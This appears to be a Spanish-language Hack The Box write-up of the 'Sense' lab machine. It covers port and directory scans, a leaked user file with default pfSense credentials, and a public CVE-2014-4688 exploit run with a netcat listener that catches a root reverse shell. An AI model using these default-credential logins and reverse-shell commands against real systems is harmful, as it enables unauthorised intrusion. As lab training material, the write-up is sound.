 ```yaml
---
layout : post
author: X4v1l0k
title: Sense Writeup [HTB]
date: 2020-11-09 01:14:00 +/- 0000
categories: [Machine-Writeup, HackTheBox]
tags: [Enumeracion,RCE,OSCP Path]
headline: Sense is a beginner-friendly OpenBSD machine from Hackthebox, where we will enumerate files and directories and exploit an RCE that will grant us root.
image: https://www.hackthebox.eu/storage/avatars/a3d8bf97412b0b6247aac14695eff21c.png
---
```


Sense - 10.10.10.60
===
![](https://www.hackthebox.eu/storage/avatars/a3d8bf97412b0b6247aac14695eff21c.png)
###### tags: `HTB` `Easy` `FreeBSD`

# Enumeración
## Nmap

```bash
$ nmap -A -Pn -p- 10.10.10.60

Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-08 23:58 CET
Nmap scan report for 10.10.10.60
Host is up (0.033s latency).
Not shown: 65533 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized
Running (JUST GUESSING): Comau embedded (92%)
Aggressive OS guesses: Comau C4G robot control unit (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   32.39 ms 10.10.14.1
2   32.50 ms 10.10.10.60

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 215.68 seconds
```

## Directorios

```bash
gobuster dir -u https://10.10.10.60/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,tar,zip,html -k -t 50
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.60/
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,bak,tar,zip,html
[+] Timeout:        10s
===============================================================
2020/11/09 00:35:40 Starting gobuster
===============================================================
/index.html (Status: 200)
/index.php (Status: 200)
/help.php (Status: 200)
/themes (Status: 301)
/stats.php (Status: 200)
/css (Status: 301)
/includes (Status: 301)
/edit.php (Status: 200)
/license.php (Status: 200)
/system.php (Status: 200)
/status.php (Status: 200)
/javascript (Status: 301)
/changelog.txt (Status: 200)
/classes (Status: 301)
/exec.php (Status: 200)
/widgets (Status: 301)
/graph.php (Status: 200)
/tree (Status: 301)
/wizard.php (Status: 200)
/shortcuts (Status: 301)
/pkg.php (Status: 200)
/installer (Status: 301)
/wizards (Status: 301)
/xmlrpc.php (Status: 200)
/reboot.php (Status: 200)
/interfaces.php (Status: 200)
/csrf (Status: 301)
/system-users.txt (Status: 200)
/filebrowser (Status: 301)
/%7Echeckout%7E (Status: 403)
===============================================================
2020/11/09 00:56:40 Finished
===============================================================
```

Dentro del archivo /system-users.txt encontramos que el usuario es "Rohit" y la contraseña pone que es "company defaults".

Tras multiples pruebas, he conseguido acceder usando como usuario "rohit" y "pfsense".

# Explotación

Tenemos varios CVE entre los que hay un RCE correspondiente al [CVE-2014-4688](https://www.exploit-db.com/exploits/43560)

Ponemos una terminal a la escucha y ejecutamos el exploit.

```bash
$ python3 exp.py --rhost 10.10.10.60 --lhost 10.10.14.35 --lport 8787 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
```

```bash
$ nc -lnvp 8787
listening on [any] 8787 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.10.60] 27331
sh: can`t access tty; job control turned off
$ id
uid=0(root) gid=0(wheel) groups=0(wheel)
```

Bueno, pues tenemos root directamente... 🤷‍♂️